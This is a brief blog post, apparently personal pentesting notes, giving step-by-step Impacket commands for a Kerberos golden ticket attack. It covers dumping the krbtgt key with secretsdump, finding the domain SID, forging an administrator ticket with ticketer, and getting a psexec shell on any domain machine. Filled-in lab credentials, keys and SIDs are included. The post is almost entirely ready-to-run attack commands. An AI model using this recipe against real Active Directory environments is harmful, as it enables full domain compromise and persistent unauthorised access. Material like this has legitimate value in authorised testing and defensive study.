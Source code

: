 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

[!NOTE]
Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details>
<summary>Use secretsdump.py to obtain the aes256 key for the krbtgt account</summary>
<br>
```
  secretsdump.py <domain>/<user>:<password> <dc-ip>
```
<br>
```
  secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
<br>
</details>
<br>
<details>
<summary>Use lookupsid.py to find the domain SID</summary>
<br>
```
  Lookupsid.py <domain>/<user>:<password> <dc-ip>
```
<br>
```
  Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
<br>
</details>
<br>
<details>
<summary>Use ticketer.py to create TGT</summary>
<br>
```
  ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
```
<br>
```
  ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
```
<br>
</details>
<br>
<details>
<summary>Export KRB5CCNAME to created ticket location</summary>
<br>
```
  export KRB5CCNAME=/home/kali/Documents/administrator.ccache
```
<br>
</details>
<br>
<details>
<summary>Use psexec to obtain a shell on any machine in the domain</summary>
<br>
```
  psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
```
<br>
```
  psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
```
<br>
</details>
